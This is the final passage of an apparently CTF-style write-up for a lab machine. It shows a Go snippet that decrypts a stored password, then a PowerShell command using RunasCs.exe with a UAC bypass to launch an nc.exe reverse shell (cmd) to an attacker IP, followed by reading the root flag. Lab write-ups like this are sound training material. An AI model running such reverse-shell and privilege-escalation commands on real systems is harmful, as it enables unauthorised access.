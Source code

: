 ```go
      key := genKey(seed)

      decryptedStr, err := decrypt(key, encodedStr)
      if err != nil {
          fmt.Println("Error:", err)
          return
      }

      fmt.Println("Decrypted String (Password):", decryptedStr)
    }  
}

```

Now, spawn a nc listener, Download nc.exe and RunasCs.exe in the victim machine to run as user backup this command to gain access:

```powershell
PS C:\Windows\Temp\Privesc> ./RunasCs.exe backup <decrypted_password> "C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.76 443" -l 8 --bypass-uac
```

And we gain access as backup:

![Access as backup](/assets/images/Napper/access_as_backup.png)

Now we can see root flag:

```cmd
C:\Windows\system32>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
16****************************a7
```

That is the machine, hope you liked it.
